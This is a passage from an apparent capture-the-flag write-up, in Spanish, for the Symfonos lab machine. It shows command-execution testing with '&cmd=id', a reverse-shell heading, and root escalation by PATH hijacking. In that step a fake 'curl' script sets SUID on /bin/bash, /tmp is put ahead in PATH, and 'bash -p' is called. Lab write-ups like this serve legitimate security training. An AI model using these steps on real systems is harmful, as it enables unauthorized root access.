 aqui podemos ver como el usuario `gleoq@test.com` ha enviado un correo a `helios@symfonos.localdomain`
![[Pasted image 20240617203318.png]]

`id`
agregamos el operador `&cmd=id` para hacer una prueba y efectivamente tenemos ejecución de comandos
![[Pasted image 20240617204332.png]]


### reverse shell

![[Pasted image 20240617205629.png]]

### Escalada de privilegios
el binario `/opt/statuscheck` es muy raro así que vamos a mirarlo
![[Pasted image 20240617211120.png]]

`/opt/statuscheck` 
vemos que el archivo esta haciendo un llamado al comando `curl` pero lo esta haciendo desde la ruta relativa. esto es muy peligroso ya que es vulnerable a `PATH HIJACKING`
![[Pasted image 20240617211311.png]]

### Path hijacking
El "path hijacking" (secuestro de rutas) es una técnica que explota la vulnerabilidad en la secuencia de búsqueda de archivos de un sistema operativo para ejecutar código malicioso. Este ataque se basa en la manipulación de la forma en que los sistemas y las aplicaciones localizan y cargan archivos ejecutables, bibliotecas, o scripts, redirigiendo el flujo de ejecución hacia un archivo malicioso en lugar del archivo legítimo

```python
> echo "chmod u+s /bin/bash" > curl (creamos un archivo llamado curl el cual comtiene comandos para cambiar los permisos de la bash)

> chmod +x curl (otorgamos permisos al archivo curl que hemos creado)

> export PATH=/tmp:$PATH (exportamos el directorio donde esta nuestro archivo al PATH)

> /opt/statuscheck (ejecutamos el binario donde tenemos permisos SUID)

> bash -p (llamamos una bash como root)

```

### Root
![[Pasted image 20240617212602.png]]

### chisel
enviamos el binario de chisel a la maquina victima usando el siguiente comando
